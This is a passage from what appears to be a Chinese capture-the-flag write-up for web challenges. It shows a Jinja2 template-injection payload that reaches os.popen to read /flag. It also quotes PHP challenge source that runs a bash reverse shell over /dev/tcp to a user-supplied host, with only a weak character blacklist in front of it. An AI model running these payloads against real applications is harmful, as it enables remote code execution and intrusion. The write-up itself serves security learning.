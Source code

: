 ```python
    elif i == "\n" or i == ",":
        continue
    else:
        result += i

for k, v in enumerate(allList):
    if "os._wrap_close" in v:
        print(str(k) + "--->" + v)
```

所以构造payoad

```
{{"".__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('cat /flag').read()}}
```

关于过滤的ssti，可以结合这三篇文章

[羽师傅](https://blog.csdn.net/miuzzx/article/details/110220425?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522163532786116780262578543%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=163532786116780262578543&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_v29-2-110220425.pc_v2_rank_blog_default&utm_term=ssti&spm=1018.2226.3001.4450)

[Y4师傅](https://blog.csdn.net/solitudi/article/details/107752717?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522163732134916780255296114%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=163732134916780255296114&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_v29-1-107752717.pc_v2_rank_blog_default&utm_term=ssti&spm=1018.2226.3001.4450)

[先知上的文章](https://xz.aliyun.com/t/10394#toc-0)


### where_is_my_FUMO

```php
 <?php
function chijou_kega_no_junnka($str) {
    $black_list = [">", ";", "|", "{", "}", "/", " "];
    return str_replace($black_list, "", $str);
}

if (isset($_GET['DATA'])) {
    $data = $_GET['DATA'];
    $addr = chijou_kega_no_junnka($data['ADDR']);
    $port = chijou_kega_no_junnka($data['PORT']);
    exec("bash -c \"bash -i < /dev/tcp/$addr/$port\"");
} else {
    highlight_file(__FILE__);
} 
```

直接说清楚了，[反弹shel](https://blog.csdn.net/unexpectedthing/article/details/121234723)l
